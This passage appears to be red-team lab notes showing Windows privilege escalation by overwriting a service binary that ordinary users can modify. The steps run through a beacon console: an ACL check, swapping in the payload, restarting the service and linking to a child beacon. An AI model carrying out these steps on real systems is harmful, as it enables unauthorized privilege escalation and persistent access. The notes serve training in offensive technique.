 This is a slight variation on the vulnerability above but instead of the weak permissions being on the service, it's on the service binary itself.
```shell
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vuln Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : WKSTN-1\None
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  Modify, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:S-1-5-21-689523297-2952850621-452819511-513D:PAI(A;;FA;;;SY)(A;;FA;;;BA)(A;;0x1301bf;;;BU)(A;;0x1200a9;;
         ;AC)(A;;0x1200a9;;;S-1-15-2-2)
```

This output shows that **Users** have **Modify** privileges over **Service 3.exe**. This allows us to simply overwrite the binary with something else (make sure you take a backup first).
```shell
beacon> download Service 3.exe
[*] started download of C:\Program Files\Vuln Services\Service 3.exe (5120 bytes)
[*] download of Service 3.exe is complete

beacon> upload C:\Payloads\Service 3.exe
[-] could not upload file: 32
```

>Use `net helpmsg` to resolve Windows error codes.
>```shell
>C:\>net helpmsg 32
>The process cannot access the file because it is being used by another process.
>```

```shell
beacon> run sc stop Vuln-Service-3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 282kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start Vuln-Service-3
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231
```

